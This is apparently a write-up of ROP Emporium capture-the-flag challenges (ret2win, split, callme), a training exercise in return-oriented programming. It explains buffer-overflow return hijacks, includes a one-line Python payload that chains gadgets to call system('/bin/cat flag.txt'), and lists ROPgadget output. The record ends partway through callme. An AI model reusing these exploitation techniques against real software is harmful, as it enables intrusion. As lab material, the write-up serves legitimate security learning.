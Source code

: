 ## ret2win

Quite easy, so I do not write scrip. The stack has no protection except N^X. And `ret2win` function will `cat flag` for us. Just write garbage information to fill the stack and adjust $RIP to the address of `ret2win` function, which is **0x400811**.

## split

Still easy, the binary includes function `system`. But how can we get string like `/bin/sh` to pass it to `system()` function? Let's use radare2 to check if the ELF contains useful strings:
```
$ rabin2 -z split32 
000 0x000008a8 0x004008a8  21  22 (.rodata) ascii split by ROP Emporium
001 0x000008be 0x004008be   7   8 (.rodata) ascii 64bits\n
002 0x000008c6 0x004008c6   8   9 (.rodata) ascii \nExiting
003 0x000008d0 0x004008d0  43  44 (.rodata) ascii Contriving a reason to ask user for data...
004 0x000008ff 0x004008ff   7   8 (.rodata) ascii /bin/ls
000 0x00001060 0x00601060  17  18 (.data) ascii /bin/cat flag.txt
```

Also check address:
```
$ gdb split
pwndbg> x system
0x4005e0 <system@plt>:	0x0a3a25ff
```

It's definitely easy now: `$ pythons -c "print 'A'*40 + '\x83\x08\x40\x00\x00\x00\x00\x00' + '\x60\x10\x60\x00\x00\x00\x00\x00' + '\x10\x08\x40\x00\x00\x00\x00\x00'" | ./split`

## callme

The challenge is special, it requires us to call `callme_one()`, `callme_two()` and `callme_three()` in sequence with argument `(1, 2, 3)`. It's slightly more difficult than previous two. We can finally use ROPgadget:
```
$ ROPgadget  --binary challenge  
Gadgets information
============================================================
...  // Long and unneeded output
0x0000000000401ab0 : pop rdi ; pop rsi ; pop rdx ; ret
0x0000000000401b23 : pop rdi ; ret
0x0000000000401ab2 : pop rdx ; ret
0x0000000000401b21 : pop rsi ; pop r15 ; ret
0x0000000000401ab1 : pop rsi ; pop rdx ; ret
0x0000000000401b1d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040198a : push rbp ; mov rbp, rsp ; call rax
0x00000000004017d9 : ret
0x0000000000401987 : sal byte ptr [rcx + rsi*8 + 0x55], 0x48 ; mov ebp, esp ; call rax
0x0000000000401b35 : sub esp, 8 ; add rsp, 8 ; ret
0x0000000000401b34 : sub rsp, 8 ; add rsp, 8 ; ret
0x00000000004018fa : test byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x0000000000401b2a : test byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x0000000000401986 : test eax, eax ; je 0x401983 ; push rbp ; mov rbp, rsp ; call rax
0x0000000000401985 : test rax, rax ; je 0x401984 ; push rbp ; mov rbp, rsp ; call rax

Unique gadgets found: 68

```
